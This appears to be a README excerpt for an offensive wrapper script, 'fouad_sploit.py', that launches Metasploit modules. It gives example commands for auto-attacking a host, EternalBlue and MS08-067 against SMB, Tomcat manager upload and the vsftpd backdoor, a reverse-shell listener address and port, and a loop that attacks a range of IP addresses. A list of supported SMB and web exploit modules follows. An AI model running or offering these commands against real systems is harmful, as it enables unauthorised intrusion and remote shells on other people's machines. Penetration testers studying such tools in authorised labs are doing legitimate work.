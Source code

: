 
## 🎯 Examples

### Example 1: Quick Auto-Attack
```bash
./fouad_sploit.py -a -t 192.168.1.100
```

### Example 2: EternalBlue SMB
```bash
./fouad_sploit.py -t 192.168.1.100 -p 445 \
  -e exploit/windows/smb/ms17_010_eternalblue
```

### Example 3: HTTP Tomcat
```bash
./fouad_sploit.py -t 10.10.10.40 -p 8080 \
  -e exploit/multi/http/tomcat_mgr_upload
```

### Example 4: FTP Backdoor
```bash
./fouad_sploit.py -t 192.168.1.50 -p 21 \
  -e exploit/unix/ftp/vsftpd_234_backdoor
```

### Example 5: Custom LHOST
```bash
./fouad_sploit.py -t 10.10.10.40 -p 445 -l 10.10.14.5 -L 4444 \
  -e exploit/windows/smb/ms08_067_netapi
```

### Example 6: Batch Multiple Targets
```bash
for ip in 192.168.1.{10..20}; do
    ./fouad_sploit.py -a -t $ip
done
```

---

## 📊 Supported Exploits

### 💻 SMB Exploits
- `exploit/windows/smb/ms17_010_eternalblue` - EternalBlue (Win 7/2008)
- `exploit/windows/smb/ms08_067_netapi` - MS08-067 (Win XP/2003)
- `exploit/windows/smb/ms17_010_psexec` - EternalBlue PSExec

### 🌐 Web Exploits
- `exploit/multi/http/tomcat_mgr_upload` - Tomcat Manager Upload
- `exploit/unix/webapp/php_thumb_shell_upload` - PHP Shell Upload
- `exploit/multi/http/struts2_content_type_ognl` - Struts2 OGNL
